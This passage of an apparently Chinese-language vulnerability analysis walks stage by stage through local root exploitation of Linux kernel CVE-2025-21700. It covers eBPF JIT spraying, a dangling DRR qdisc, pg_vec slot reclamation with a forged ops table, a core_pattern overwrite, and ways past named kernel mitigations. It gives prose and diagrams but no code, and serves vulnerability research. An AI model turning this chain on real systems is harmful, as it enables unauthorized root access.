从更广的视角看，**CVE-2025-21700** 再次说明，内核中看似局部的语义校验缺失，若与调度器活动列表、引用计数和反向查找机制叠加，便可能演化为稳定且高价值的 UAF 利用原语。这类漏洞的修复往往需要在“修补行为本身”与“维持既有语义约定”之间做出权衡，而预防性拒绝非法配置，常常是兼顾安全与兼容性的务实选择。

## 3. 利用思路一

在 **CVE-2025-21700** 的链条中，`drr_dequeue()` 遍历活动列表时对悬空对象调用 `ops->peek`，这一调用点为控制流转移提供了入口。本章给出的验证思路，正是围绕这一入口展开：先在内核中构造一个可预测地址的 JIT 载荷，再通过回收被释放的 `Qdisc` 槽位伪造其操作表，最终将控制流引导至该载荷。与依赖信息泄露与 ROP 链的常规路径不同，本方案不构造 ROP 链，也不依赖独立的 KASLR 泄露，而是利用 eBPF JIT 编译器生成一段完整的可执行代码，并通过模块区随机偏移的有界性预测其地址。

### 3-1. 整体架构设计

整体流程从本地进程进入独立命名空间开始，依次完成 JIT 映像准备、qdisc 树构建、跨父类替换、激活与释放、槽位回收、控制流转移与权限提升。方案的核心理念是：先在模块区铺满可预测地址的 JIT 映像，再在内核中构造一个悬空的 qdisc 对象，通过回收该对象的槽位并伪造其操作表，将控制流引导至 JIT 载荷。整个链条中，每一个阶段都为下一阶段创造必要条件，缺一不可。



### 3-2. 阶段 0：环境初始化

阶段 0 负责准备执行环境。本地进程提升文件描述符上限，以便后续挂载大量 JIT 映像时不会被资源限制打断。随后创建观察管道，用于在权限提升完成后通知观察子进程。接着，进程进入独立的用户与网络命名空间，并在该命名空间内配置回环接口、打开 netlink 与 UDP 套接字。观察子进程在此阶段派生，用于轮询 `core_pattern` 的变化。该阶段完成后，进程拥有 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力，且所有后续操作均限于新命名空间内的回环接口，不影响宿主环境。



### 3-3. 阶段 1：JIT 映像准备

阶段 1 准备 JIT 映像。本地进程构造单页大小的 eBPF 程序，其内容为 nop 滑梯、跳板与载荷。内核在程序挂载时将其编译为 JIT 映像，并放入模块内存区。大量映像被批量挂载至套接字，覆盖模块区的随机偏移范围。模块区的随机偏移由 `get_module_load_offset()` 在启动时一次性选定，范围有界，因此 1024 页以上的喷射量即可覆盖所有可能偏移。完成喷射后，本地进程根据模块区基址、偏移范围与每个映像的随机空洞上限，计算出预测载荷地址。该地址在后续阶段被写入伪造的操作表。


### 3-4. 阶段 2：qdisc 树构建

阶段 2 构建 qdisc 树。本地进程在回环接口上创建 DRR 根 qdisc，依次添加基础类、嵌套结构与辅助类。每个新建类在创建时都会由 `drr_change_class()` 通过 `qdisc_create_dflt()` 自动获得一个默认子 qdisc，其 `parent` 字段被设为对应的 classid。部分类被分配在 CPU 1 上，以避免其槽位落在 CPU 0 活跃的 slab 上，从而为后续释放后的堆布局留下空间。随后，显式子 qdisc 被挂载到目标类下，替换其默认子 qdisc。

树形结构随步骤变化如下：

**步骤 1–2：创建根 qdisc 与 `drr(1:1)`**

```
DRR(1:)
 └── drr(1:1) ──► pfifo(1:1)          (默认子 qdisc)
```

**步骤 3–5：在 CPU 1 上添加 `fifo_B(1:2)` 与 32 个 dummy 类**

```
DRR(1:)
 ├── drr(1:1) ──► pfifo(1:1)
 ├── fifo_B(1:2) ──► pfifo(1:2)       (on CPU 1)
 └── dummy(1:129..160) ──► pfifo      (on CPU 1)
```

**步骤 6–7：回到 CPU 0，添加 `plug(1:3)`（quantum = 1）**

```
DRR(1:)
 ├── drr(1:1) ──► pfifo(1:1)
 ├── fifo_B(1:2) ──► pfifo(1:2)
 ├── dummy(1:129..160) ──► pfifo
 └── plug(1:3) ──► pfifo(1:3)         (quantum = 1)
```

**步骤 8：挂载 `DRR(11:)` 与 `PLUG(13:)`**

```
DRR(1:)
 ├── drr(1:1)
 │    └── DRR(11:)                    (替换 pfifo(1:1))
 ├── fifo_B(1:2) ──► pfifo(1:2)
 ├── dummy(1:129..160) ──► pfifo
 └── plug(1:3)
      └── PLUG(13:)                   (替换 pfifo(1:3))
```

**步骤 9：添加 `fifo_A(11:11)` 与 `FIFO(777:)`**

```
DRR(1:)
 ├── drr(1:1)
 │    └── DRR(11:)
 │         └── fifo_A(11:11)
 │              └── FIFO(777:)        parent = 11:11, refcnt = 1
 ├── fifo_B(1:2) ──► pfifo(1:2)
 ├── dummy(1:129..160) ──► pfifo
 └── plug(1:3) ──► PLUG(13:)
```



### 3-5. 阶段 3：跨父类替换与失效

阶段 3 执行跨父类替换。本地进程发起替换请求，将目标 qdisc 从原父类移动到新父类下。替换路径经由 `qdisc_graft()` 与 `qdisc_replace()` 交换目标类的子 qdisc 指针，并释放其原有默认子 qdisc。关键问题在于：替换路径不更新目标 qdisc 的父节点字段，其值仍指向原父类。随后删除原父类，使旧父节点标识不再可解析，目标 qdisc 的父节点记录成为陈旧值。此时，目标 qdisc 实际挂在新父类下，但 `parent` 字段仍指向旧父类，引用计数从 1 变为 2。

**步骤 1：跨父类替换 `FIFO(777:)` 到 `fifo_B(1:2)`**

```
DRR(1:)
 ├── drr(1:1)
 │    └── DRR(11:)
 │         └── fifo_A(11:11)          (无子 qdisc)
 ├── fifo_B(1:2)
 │    └── FIFO(777:)                  parent = 11:11 (陈旧), refcnt = 2
 ├── dummy(1:129..160) ──► pfifo
 └── plug(1:3) ──► PLUG(13:)
```

**步骤 2：删除 `drr(1:1)`，销毁嵌套结构**

```
DRR(1:)
 ├── fifo_B(1:2)
 │    └── FIFO(777:)                  parent = 11:11 (不可解析), refcnt = 1
 ├── dummy(1:129..160) ──► pfifo
 └── plug(1:3) ──► PLUG(13:)
```



### 3-6. 阶段 4：激活与释放

阶段 4 激活活动列表并释放目标类。本地进程先向辅助类发送数据包，再向目标类发送数据包，使两者依次进入活动列表。辅助类的 quantum 为 1，这使其在后续出队遍历中不会立即出队，而是被旋转到活动列表尾部。随后删除目标类。删除路径清理目标 qdisc 的队列并尝试向上通知，但由于父节点记录陈旧，反向查找失败，通知被跳过。类对象与目标 qdisc 被释放，而活动列表仍持有已释放条目的引用，悬空 `drr_class` 与悬空 `Qdisc` 由此形成。

**删除 `fifo_B(1:2)` 之前的树形结构**

```
DRR(1:)
 ├── fifo_B(1:2)
 │    └── FIFO(777:)                  parent = 11:11 (不可解析), refcnt = 1
 ├── dummy(1:129..160) ──► pfifo
 └── plug(1:3) ──► PLUG(13:)

活动列表： plug(1:3) -> fifo_B(1:2)
```

**删除 `fifo_B(1:2)` 之后的树形结构**

```
DRR(1:)
 ├── dummy(1:129..160) ──► pfifo
 └── plug(1:3) ──► PLUG(13:)

活动列表： plug(1:3) -> [悬空 fifo_B(1:2) 条目]
悬空对象： drr_class(fifo_B) 与 FIFO(777:) 已释放
```



### 3-7. 阶段 5：槽位回收与伪造

阶段 5 回收释放槽位并伪造操作表。本地进程通过 AF_PACKET 的 `PACKET_TX_RING` 机制分配 `pg_vec` 数组，使其落入被释放 qdisc 所在的 kmalloc-512 缓存。数组元素覆盖被释放对象的字段，其中某个指针落在偏移 `0x18` 处的操作表指针位置。该指针指向已映射到用户空间的内核页，页内放置伪造的操作表，并将其中的 `peek` 成员指向预测的 JIT 载荷地址。完成该阶段后，悬空 `Qdisc` 的 `ops` 指针不再指向原有的操作表，而是指向用户可控的内核页。

**槽位回收后的内核堆状态**

```
kmalloc-512 slab
│
├── slab 对象 0       其他内核对象
│
├── slab 对象 1       其他内核对象
│
├── 已释放的 FIFO(777:) 槽位（被 pg_vec 数组回收）
│   │
│   ├── 偏移 0x00     pg_vec[0].buffer  ──►  内核页 0
│   ├── 偏移 0x08     pg_vec[1].buffer  ──►  内核页 1
│   ├── 偏移 0x10     pg_vec[2].buffer  ──►  内核页 2
│   ├── 偏移 0x18     pg_vec[3].buffer  ──►  内核页 3   ◄── 落在 Qdisc->ops
│   ├── 偏移 0x20     pg_vec[4].buffer  ──►  内核页 4
│   ├── ...
│   └── 偏移 0x100    pg_vec[32].buffer ──►  内核页 32
│
├── slab 对象 3       其他内核对象
│
└── slab 对象 4       其他内核对象
```

**伪造操作表的内核页内容**

```
内核页 3（由 pg_vec[3].buffer 指向，已映射到用户空间）
│
├── 偏移 0x00     其他字段
├── ...
├── 偏移 0x38     peek = JIT 载荷地址   ◄── Qdisc_ops->peek 的位置
├── ...
└── 偏移 0x88     其他字段
```

**悬空对象与回收对象的对应关系**

```
悬空 drr_class(fifo_B)
│
├── alist          仍挂在 drr_sched.active 活动列表中
├── qdisc  ──►  已释放的 FIFO(777:) 槽位
│                 │
│                 └── ops  ──►  pg_vec[3].buffer
│                                 │
│                                 └── peek  ──►  JIT 载荷地址
└── quantum = 0x8000
```

该树形图展示了从悬空 `drr_class` 到 JIT 载荷的完整引用链。活动列表中的悬空条目通过 `qdisc` 字段指向已释放的 `FIFO(777:)` 槽位，该槽位的 `ops` 字段已被 `pg_vec[3].buffer` 覆盖，指向用户可控的内核页。内核页中的伪造操作表的 `peek` 成员指向 JIT 载荷地址。当调度器遍历活动列表并调用 `peek` 时，控制流沿该链条进入 JIT 载荷。



### 3-8. 阶段 6：控制流转移

阶段 6 触发控制流转移。本地进程释放辅助类，调度器从活动列表头部开始遍历。第一次迭代读取辅助类条目，因其配额较小，将其旋转到活动列表尾部。第二次迭代读取已释放的目标类条目，调用其 `qdisc` 字段指向的伪造操作表中的 `peek` 成员。控制流由此进入 JIT 载荷。该阶段是整条链条的关键转折点：此前的所有操作都在为这一刻创造条件，此后的所有操作都在利用这一刻获得的能力。

**遍历过程中的活动列表变化**

```
初始状态： [plug(1:3)] -> [悬空 fifo_B(1:2)] -> ...
第一次迭代：读取 plug(1:3)，旋转至尾部
           [悬空 fifo_B(1:2)] -> ... -> [plug(1:3)]
第二次迭代：读取悬空 fifo_B(1:2)，触发 peek 调用
```



### 3-9. 阶段 7：权限提升与收尾

阶段 7 完成权限提升与收尾。JIT 载荷覆写 `core_pattern`，将其改为以 root 权限重新执行指定程序的格式。观察子进程持续轮询 `core_pattern`，一旦检测到其内容变化，便触发一次 core dump。内核按照新的 `core_pattern` 以 root 权限重新执行指定程序，本地进程随后获得 root shell。至此，从本地进程到 root shell 的完整路径闭合。



### 3-10. 保护机制应对策略

现代内核通常启用多种安全机制，这些机制分别从地址空间随机化、执行权限隔离、内存分配隔离、堆元数据保护、控制流完整性以及内核与用户态数据交换边界等维度，对潜在的内存异常操作进行防御。本方案在设计之初便充分考量了这些保护机制的影响，并针对性地选择了相应的技术路径。

1. **KASLR**：随机化内核代码段、数据段和模块的加载基址。本方案不依赖内核虚拟地址的精确预测，而是通过批量喷射 JIT 映像覆盖模块区的随机偏移范围，使预测载荷地址始终落在某一映像内部。模块区的随机偏移范围有界，1024 页的喷射量即可覆盖。

2. **SMEP**：阻止内核态执行用户态虚拟地址中的代码。本方案不将用户态代码注入内核执行。控制流转移发生在内核态内部，`Qdisc->ops->peek` 指向的是模块区中的 JIT 映像，其内容由内核编译生成，并非用户态代码。

3. **SMAP**：阻止内核态通过用户态虚拟地址访问用户数据。本方案不通过用户指针直接访问用户数据。伪造的操作表位于已映射到用户空间的内核页中，内核侧访问的是该内核页的虚拟地址，而非用户态虚拟地址。

4. **KPTI**：分离内核页表与用户页表。本方案全程通过合法系统调用完成，不依赖用户态直接访问内核虚拟地址空间。

5. **CONFIG_MEMCG / CONFIG_MEMCG_KMEM**：为受控进程创建独立的缓存，与普通缓存隔离。该机制不影响 slab 层面的堆布局操作。本方案依赖的是 kmalloc-128 与 kmalloc-512 缓存中对象的分配与释放顺序，与 cgroup 缓存隔离无关。

6. **CONFIG_SLAB_FREELIST_RANDOM**：随机化空闲链表中的对象顺序，增加同一 slab 内分配顺序的预测难度。本方案通过批量分配 `pg_vec` 数组来回收目标槽位，并覆盖多个候选位置，因此不依赖对空闲链表顺序的精确预测。

7. **CONFIG_SLAB_FREELIST_HARDENED**：对空闲链表指针进行异或混淆，并检测双重释放。本方案中目标对象仅被释放一次，后续通过 `pg_vec` 数组回收，不构成双重释放，因此检测不会触发。

8. **CONFIG_INIT_ON_ALLOC_DEFAULT_ON**：在分配 slab 对象时对内存进行清零。本方案中，`pg_vec` 数组的元素由内核在分配时写入，其内容为指向内核页的指针，不依赖分配时的残留数据；目标 qdisc 本身即通过零初始化分配。

9. **CONFIG_HARDENED_USERCOPY**：在数据交换路径中增加边界检查。本方案不通过 `copy_to_user()` / `copy_from_user()` 访问越界数据，伪造操作表位于内核页中，由内核直接访问。

整体而言，本方案通过 JIT 映像喷射覆盖模块 KASLR 范围、`pg_vec` 数组回收释放槽位，以及内核态内部的 JIT 载荷执行，有效规避了上述保护机制。方案不依赖页表操作，也不依赖用户态直接访问内核虚拟地址空间。

### 3-11. 前提条件与局限性

**前提条件**

1. 目标内核启用了 `CONFIG_NET_SCHED`、`CONFIG_NET_SCH_DRR`、`CONFIG_NET_SCH_FIFO`、`CONFIG_NET_SCH_PLUG` 等流量控制相关配置。
2. 目标内核启用了 `CONFIG_PACKET`，以支持 AF_PACKET 的 `PACKET_TX_RING` 机制。该机制用于分配 `pg_vec` 数组，使其落入被释放 qdisc 所在的 kmalloc-512 缓存。
3. 目标内核启用了非特权用户命名空间与网络命名空间，使得普通用户可以获得 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力。
4. 目标内核未启用 `CONFIG_RANDOM_KMALLOC_CACHES`。该配置在 Linux v6.6 及更高版本中引入，启用后会为每个调用点随机化 kmalloc 缓存，使同一大小的对象分散到多个随机化的缓存中。本方案的槽位回收依赖目标 qdisc 在 kmalloc-512 缓存中的稳定布局。若该配置启用，`pg_vec` 数组将被分散到不同的随机缓存中，槽位回收将无法命中预期目标。
5. 目标内核的 SLUB 分配器行为与方案假设一致，能够通过 slab 层面的操作实现预期的内存布局。

**局限性**

1. 方案依赖于精确的时序控制与内存布局，在负载较高或中断频繁的环境中可能降低成功率。
2. 方案对内核版本有一定要求，不同版本的结构体偏移与函数地址可能不同，需要针对目标版本进行调整。
3. 若目标内核启用了 `CONFIG_RANDOM_KMALLOC_CACHES`，本方案所依赖的 slab 布局稳定性将被破坏，需要针对该配置调整堆喷策略或寻找其他验证路径。

### 3-12. 章节总结

本章给出的验证思路，核心在于将 **CVE-2025-21700** 的 UAF 原语与两种独立技术结合：一是通过 AF_PACKET 的 `pg_vec` 数组回收被释放的 `Qdisc` 槽位，二是通过批量喷射的 eBPF JIT 映像提供控制流转移目标与提权载荷。两者分别解决了“如何控制悬空对象”与“转移至何处”的问题。

从链条推进的角度看，各阶段的分工如下：

- **阶段 0 与阶段 1** 完成环境准备与 JIT 映像喷射。前者为后续操作提供 `CAP_NET_ADMIN` 能力与观察子进程，后者为控制流转移准备好可预测地址的载荷。
- **阶段 2 与阶段 3** 完成 qdisc 树的构建与跨父类替换。树形结构为替换提供了拓扑基础，而替换操作使目标 qdisc 的 `parent` 字段与实际挂载位置分离，为后续释放埋下伏笔。
- **阶段 4** 激活并释放目标类，使 `drr_class` 与 `Qdisc` 两个对象进入悬空状态，而活动列表仍持有其引用。
- **阶段 5** 回收释放槽位并伪造操作表，使悬空 `Qdisc` 的 `ops` 指针指向用户可控的内核页。
- **阶段 6** 触发调度器遍历，将控制流引导至 JIT 载荷。
- **阶段 7** 通过覆写 `core_pattern` 完成权限提升与收尾。

这一思路的特点在于：控制流转移目标并非通过内核地址泄露获得，而是通过模块区随机偏移的有界性与 JIT 映像的批量喷射来预测；载荷并非通过 ROP 链构造，而是通过 eBPF JIT 编译器生成一段完整的可执行代码。两项选择共同降低了方案对信息泄露原语的依赖，也使其在开启 `bpf_jit_harden` 的现代内核上仍能保持稳定。

方案的适用性受限于若干前提条件，其中最关键的是 `CONFIG_RANDOM_KMALLOC_CACHES` 必须未启用。该配置会使同一大小的对象分散到多个随机缓存中，破坏 `pg_vec` 数组对目标槽位的回收路径。此外，方案依赖精确的时序控制与内存布局，在负载较高或中断频繁的环境中成功率可能下降。这些限制并不削弱思路本身的可行性，但决定了其在具体目标环境中的适用边界。

### 3-13. 测试结果一

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 4. 利用思路二

在 **CVE-2025-21700** 的链条中，悬空类条目为控制流转移提供了入口。本章给出的验证思路与思路一不同，它利用 QFQ 调度器的类型混淆特性，通过跨类型对象回收与字段重叠，在内核中构造伪造的操作表，最终将控制流引导至 JIT 载荷。该思路的独特之处在于，它不依赖对单一类型对象布局的精确预测，而是利用两种类型通过同一调用点分配这一事实，使其在启用 `CONFIG_RANDOM_KMALLOC_CACHES` 的内核上仍能落在同一缓存子集中，从而绕过该保护。

### 4-1. 整体架构设计

整体流程从本地进程进入独立命名空间开始，依次完成 JIT 映像准备、QFQ 树构建、跨父类替换、激活与释放、跨类型槽位回收与伪造操作表、控制流转移与权限提升。方案采用双进程协作：主进程负责构建 QFQ 树、触发释放并最终触发调度器遍历；工作进程负责回收释放槽位、驱动字段重叠并构造伪造操作表。两者通过共享内存同步。



### 4-2. 阶段 0：环境初始化

阶段 0 负责准备执行环境。主进程提升文件描述符上限，创建观察管道与共享同步页，随后派生工作进程。两个进程分别进入独立的用户与网络命名空间，并在各自命名空间内配置回环接口、打开 netlink 与 UDP 套接字。观察子进程由主进程派生，用于轮询 `core_pattern` 的变化。

